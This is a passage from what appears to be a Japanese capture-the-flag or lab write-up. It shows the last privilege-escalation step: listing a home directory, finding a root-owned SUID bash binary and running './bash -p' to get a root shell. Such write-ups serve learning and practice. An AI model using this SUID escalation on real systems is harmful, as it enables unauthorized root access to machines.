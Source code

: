 ```bash
```
  
念のため`ls -al`でディレクトリ内とその権限等を見てみる
```bash
cappucino@polonfs:~$ ls -al
total 1284
drwxr-xr-x 5 cappucino cappucino    4096 Jun 10 23:07 .
drwxr-xr-x 3 root      root         4096 Apr 21  2020 ..
-rwsr-sr-x 1 root      cappucino 1277936 Jun 10 23:07 bash
-rw------- 1 cappucino cappucino      58 Jun 10 23:08 .bash_history
-rw-r--r-- 1 cappucino cappucino     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cappucino cappucino    3771 Apr  4  2018 .bashrc
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .cache
drwx------ 3 cappucino cappucino    4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 cappucino cappucino     807 Apr  4  2018 .profile
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .ssh
-rw-r--r-- 1 cappucino cappucino       0 Apr 22  2020 .sudo_as_admin_successful
```
bashに`SUIDが設定`されており、所有者が`root`になっていることが確認できる。  
ここまできたら後は実行するだけ。  
```bash
cappucino@polonfs:~$ ./bash -p

bash-4.4# whoami
root
```
`./bash`の`-pオプション`は、実行者の権限を保持するというオプションになる。普通にSUIDが付いていれば所有者である`root`で実行されるものだが、bashに限っては`権限をドロップ`することがあるらしいので、明示的にオプションを付けて実行    
`whoami`を実行するとrootになっていることが確認できる。  
    
